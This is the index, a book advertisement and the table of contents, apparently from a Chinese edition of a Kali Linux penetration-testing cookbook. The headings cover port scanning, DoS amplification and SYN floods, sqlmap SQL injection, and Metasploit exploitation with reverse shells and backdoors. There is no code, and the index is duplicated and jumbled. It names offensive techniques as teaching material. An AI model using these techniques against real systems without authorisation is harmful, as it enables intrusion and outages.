- `used`, 用于执行 TCP 连接扫描 `170-178`
- `被动操作系统指识别`
- `used`, 用于执行 TCP 隐蔽扫描
- `performing`, 使用 `p0f` `241-244`
- `scan` `145-153`
- `被动扫描` `377`
- `used`, 用于执行 UDP 扫描 `129-136`
- `ping` `77`
- `used`, 用于执行僵尸扫描 `199-204`
- `端口扫描` `125`
- `script.db` 文件 `271`
- `POST` 方法 SQL 注入
- `安全拷贝 (SCP)` `34`
- `performing`, 使用 `sqlmap` `394-397`
- `安全实验室`
- `PuTTY`
- `configuring`, 使用 `VMware Fusion` 配置
- `URL`, 用于下载 `31`
- `(Mac OS X)` `13-16`
- `Python`
- `configuring`, 使用 `VMware Player` 配置
- `about` `299`
- `(Windows)` `7-12`
- `used`, 用于收集服务指纹 `213-217`
- `send()` 函数 `329`
- `R`
- `服务指纹`
- `gathering`, 使用 `Amap` 收集 `221-224`
- `正则表达式`
- `gathering`, 使用 `Dmitry` 收集 `218, 219`
- `URL` `370`
- `gathering`, 使用 `Netcat` 收集 `211-213`
- `gathering`, 使用 `Nmap NSE` 收集 `220, 221`
- `gathering`, 使用 `Python` 收集 `213-217`
- `433`
- `服务识别`
- `T`
- `performing`, 使用 `Amap` 执行 `226-229`
- `performing`, 使用 `Nmap` 执行 `224-226`
- `针对性 NSE 脚本执行`
- `简单网络管理协议`.*参见*
- `Nmap` 端口扫描，使用 `410-412` 执行
- `SNMP`
- `TCP` `48, 100, 125`
- `smurf` DoS 攻击
- `TCP 连接扫描`
- `performing` `306-309`
- `performing`, 使用 `Dmitry` 执行 `192-195`
- `SNMP` `25, 210`
- `performing`, 使用 `Metasploit` 执行 `184-192`
- `SNMP 放大攻击`
- `performing`, 使用 `Netcat` 执行 `195-199`
- `simulating` `320-330`
- `performing`, 使用 `Nmap` 执行 `178-184`
- `SNMP 分析`
- `performing`, 使用 `Scapy` 执行 `170-178`
- `performing`, 使用 `Onesixtyone` 执行 `244, 245`
- `TCP 端口扫描` `126, 127`
- `performing`, 使用 `SNMPwalk` 执行 `245-247`
- `TCP 隐蔽扫描`
- `SNMPwalk`
- `performing`, 使用 `hping3` 执行 `167-170`
- `about` `245`
- `performing`, 使用 `Metasploit` 执行 `160-166`
- `used`, 用于执行 `SNMP 分析` `245-247`
- `performing`, 使用 `Nmap` 执行 `153-159`
- `SOCK_STREAM` 参数 `214`
- `performing`, 使用 `Scapy` 执行 `145-153`
- `sock 压力 DoS 攻击`
- `文本编辑器`
- `about` `339`
- `about` `42`
- `performing`, 使用 `Scapy` 执行 `339-343`
- `using` `43, 44`
- `sqlmap`
- `working` `44`
- `捕获 SQL 注入，请求`
- `TFTP` `423`
- `with 397-399`
- `三次握手` `126`
- `GET` 方法 SQL 注入，执行
- `存活时间 (TTL)` `425`
- `with 390--394`
- `流量放大 DoS 攻击` `298`
- `POST` 方法 SQL 注入，执行
- `传输控制协议`.*参见* `TCP`
- `with 394-397`
- `简单文件传输协议`.*参见* `TFTP`

## 工具与配置

- `SSH`
- `configuring` `31-34` 配置
- `U`
- `using` `31-34`
- `SSLScan`
- `Ubuntu Server`
- `about` `363`
- `about` `16`
- `installing` `16-19`
- `used`, 用于执行 `SSL/TLS 扫描` `364-366`
- `SSL/TLS 扫描`
- `URL`, 下载镜像 (ISO 文件) `16`
- `performing`, 使用 `SSLScan` 执行 `364-366`
- `UDP` `48, 100, 125`
- `performing`, 使用 `SSze` 执行 `364`
- `UDP 端口扫描` `126`
- `used`, 用于执行 `SSL/TLS 扫描` `367-369`
- `performing`, 使用 `Metasploit` 执行 `140-145`
- `UDP 扫描`
- `performing`, 使用 `Nmap` 执行 `127-136` (扫描)
- `SYN+ACK` 数据包 `127`
- `User Datagram Protocol`.*参见* `UDP`
- `SYN 洪水攻击`
- `performing`, 使用 `Scapy` 执行 `127-332` (同步)
- `V`
- `using` `43, 44`
- `vim` `43`
- `vim` 文本编辑器
- `VMware Fusion`
- `performing`, 使用 `Burp Suite` 执行 `333-338`
- `URL`, 下载 `31`
- `(Mac OS X)` `13-16`
- `Python`
- `configuring`, 使用 `VMware Player` 配置
- `about` `299`
- `(Windows)` `7-12`
- `used`, 用于收集服务指纹 `213-217`
- `send()` 函数 `329`
- `R`
- `服务指纹`
- `gathering`, 使用 `Amap` 收集 `221-224`
- `正则表达式`
- `gathering`, 使用 `Dmitry` 收集 `218, 219`
- `URL` `370`
- `gathering`, 使用 `Netcat` 收集 `211-213`
- `gathering`, 使用 `Nmap NSE` 收集 `220, 221`
- `gathering`, 使用 `Python` 收集 `213-217`
- `433`
- `服务识别`
- `T`
- `performing`, 使用 `Amap` 执行 `226-229`
- `performing`, 使用 `Nmap` 执行 `224-226`
- `针对性 NSE 脚本执行`
- `简单网络管理协议`.*参见*
- `Nmap` 端口扫描，使用 `410-412` 执行
- `SNMP`
- `TCP` `48, 100, 125`
- `smurf` DoS 攻击
- `TCP 连接扫描`
- `performing` `306-309`
- `performing`, 使用 `Dmitry` 执行 `192-195`
- `SNMP` `25, 210`
- `performing`, 使用 `Metasploit` 执行 `184-192`
- `SNMP 放大攻击`
- `performing`, 使用 `Netcat` 执行 `195-199`
- `simulating` `320-330`
- `performing`, 使用 `Nmap` 执行 `178-184`
- `SNMP 分析`
- `performing`, 使用 `Scapy` 执行 `170-178`
- `performing`, 使用 `Onesixtyone` 执行 `244, 245`
- `TCP 端口扫描` `126, 127`
- `performing`, 使用 `SNMPwalk` 执行 `245-247`
- `TCP 隐蔽扫描`
- `SNMPwalk`
- `performing`, 使用 `hping3` 执行 `167-170`
- `about` `245`
- `performing`, 使用 `Metasploit` 执行 `160-166`
- `used`, 用于执行 `SNMP 分析` `245-247`
- `performing`, 使用 `Nmap` 执行 `153-159`
- `SOCK_STREAM` 参数 `214`
- `performing`, 使用 `Scapy` 执行 `145-153`
- `sock 压力 DoS 攻击`
- `文本编辑器`
- `about` `339`
- `about` `42`
- `performing`, 使用 `Scapy` 执行 `339-343`
- `using` `43, 44`
- `sqlmap`
- `working` `44`
- `捕获 SQL 注入，请求`
- `TFTP` `423`
- `with 397-399`
- `三次握手` `126`
- `GET` 方法 SQL 注入，执行
- `存活时间 (TTL)` `425`
- `with 390--394`
- `流量放大 DoS 攻击` `298`
- `POST` 方法 SQL 注入，执行
- `传输控制协议`.*参见* `TCP`
- `with 394-397`
- `简单文件传输协议`.*参见* `TFTP`


# Kali Linux

1. 学习各种攻击手段以及避免这些攻击的技巧和策略。
2. 掌握执行渗透测试高效方法。
3. 使用高级技术绕过安全控制，并在进行社会工程测试时保持隐身。

## 使用 Kali Linux 进行 Web 渗透测试

ISBN: 978-1-78216-316-9 纸质版：342 页

本关于使用 Kali Linux 在网站、Web 应用程序和标准网络协议上实施渗透测试策略的实用指南。

1. 学习渗透测试所需的关键侦察概念。
2. 攻击并利用 Web 应用程序的关键功能、身份验证和会话。
3. 学习如何保护系统、编写报告以及销售 Web 渗透测试服务。

请访问 `www.PacktPub.com` 获取有关我们书籍的信息。

# 文档大纲

* 封面
* 版权
* 致谢
* 关于作者
* 关于审核员
* www.PacktPub.com
* 免责声明
* 目录
* 序言
* 第 1 章：入门
    * 使用 VMware Player (Windows) 配置安全实验室
    * 使用 VMware Fusion (Mac OS X) 配置安全实验室
    * 安装 Ubuntu Server
    * 安装 Metasploitable2
    * 安装 Windows Server
    * 增大 Windows 攻击面
    * 安装 Kali Linux
    * 配置和使用 SSH
    * 在 Kali Linux 上安装 Nessus
    * 在 Kali Linux 上配置 Burp Suite
    * 使用文本编辑器 (VIM 和 Nano)
* 第 2 章：发现扫描
    * 使用 Scapy 执行第 2 层发现
    * 使用 ARPing 执行第 2 层发现
    * 使用 Nmap 执行第 2 层发现
    * 使用 NetDiscover 执行第 2 层发现
    * 使用 Metasploit 执行第 2 层发现
    * 使用 ICMP 执行第 3 层发现
    * 使用 Scapy 执行第 3 层发现
    * 使用 Nmap 执行第 3 层发现
    * 使用 fping 执行第 3 层发现
    * 使用 hping3 执行第 3 层发现
    * 使用 Scapy 执行第 4 层发现
    * 使用 Nmap 执行第 4 层发现
    * 使用 hping3 执行第 4 层发现
* 第 3 章：端口扫描
    * UDP 端口扫描
    * TCP 端口扫描
    * 使用 Scapy 进行 UDP 扫描
    * 使用 Nmap 进行 UDP 扫描
    * 使用 Metasploit 进行 UDP 扫描
    * 使用 Scapy 进行隐蔽扫描
    * 使用 Nmap 进行隐蔽扫描
    * 使用 Metasploit 进行隐蔽扫描
    * 使用 Hping3 进行隐蔽扫描
    * 使用 Scapy 进行连接扫描
    * 使用 Nmap 进行连接扫描
    * 使用 Metasploit 进行连接扫描
    * 使用 Dmitry 进行连接扫描
    * 使用 Netcat 进行 TCP 扫描
    * 使用 Scapy 进行僵尸扫描
    * 使用 Nmap 进行僵尸扫描
* 第 4 章：指纹识别
    * 使用 Netcat 获取 Banner
    * 使用 Python sockets 获取 Banner
    * 使用 Dmitry 获取 Banner
    * 使用 Nmap NSE 获取 Banner
    * 使用 Amap 获取 Banner
    * 使用 Nmap 识别服务
    * 使用 Amap 识别服务
    * 使用 Scapy 识别操作系统
    * 使用 Nmap 识别操作系统
    * 使用 xProbe 识别操作系统
    * 使用 p0f 被动识别操作系统
    * 使用 Onesixty 分析 SNMP
    * 使用 SNMPwalk 分析 SNMP
    * 使用 Scapy 识别防火墙
    * 使用 Nmap 识别防火墙
    * 使用 Metasploit 识别防火墙
* 第 5 章：漏洞扫描
    * 使用 Nmap 脚本引擎扫描漏洞
    * 使用 MSF 辅助模块扫描漏洞
    * 使用 Nessus 创建策略
    * 使用 Nessus 扫描
    * 使用 Nessus 命令行扫描
    * 通过 HTTP 验证漏洞
    * 通过 ICMP 验证漏洞
* 第 6 章：拒绝服务
    * 通过 Fuzz 识别缓冲区
    * 远程 FTP 服务缓冲区溢出
    * Smurf 攻击
    * DNS 放大攻击
    * SNMP 放大攻击
    * NTP 放大攻击
    * SYN 洪水攻击
    * Sock 压力攻击
    * 使用 Nmap NSE 进行 DoS 攻击
    * 使用 Metasploit 进行 DoS 攻击
    * 使用漏洞数据库进行 DoS 攻击
* 第 7 章：Web 应用程序扫描
    * 使用 Nikto 扫描 Web 应用程序
    * 使用 SSLScan 扫描 SSL/TLS
    * 使用 SSLyze 扫描 SSL/TLS
    * 使用 Burp Suite 定义 Web 应用程序目标
    * 使用 Burp Suite Spider (爬虫)
    * 使用 Burp Suite 交互工具
    * 使用 Burp Suite 代理
    * 使用 Burp Suite Web 扫描器
    * 使用 Burp Suite Intruder (入侵者)
    * 使用 Burp Suite Comparer (比较器)
    * 使用 Burp Suite Repeater (重复器)
    * 使用 Burp Suite Decoder (解码器)
    * 使用 Burp Suite Sequencer (序列器)
    * 使用 sqlmap 进行 GET 方法 SQL 注入


- 使用 sqlmap 进行 POST 方法 SQL 注入
- 使用 sqlmap 进行请求捕获 SQL 注入
- 自动化 CSRF 测试
- 通过 HTTP 流量验证命令注入漏洞
- 通过 ICMP 流量验证命令注入漏洞

# 第 8 章：Kali 工具的自动化 (#index_split_007.html_420)

- Nmap greppable 输出结果分析
- 通过针对性 NSE 脚本执行进行 Nmap 端口扫描
- 结合 MSF 利用进行 Nmap NSE 漏洞扫描
- 结合 MSF 利用进行 Nessuscmd 漏洞扫描
- 使用反向 Shell Payload 的多线程 MSF 利用
- 使用后门可执行文件的多线程 MSF 利用
- 带有 ICMP 验证的多线程 MSF 利用
- 带有管理员账户创建的多线程 MSF 利用

# 索引 (#index_split_007.html_442)

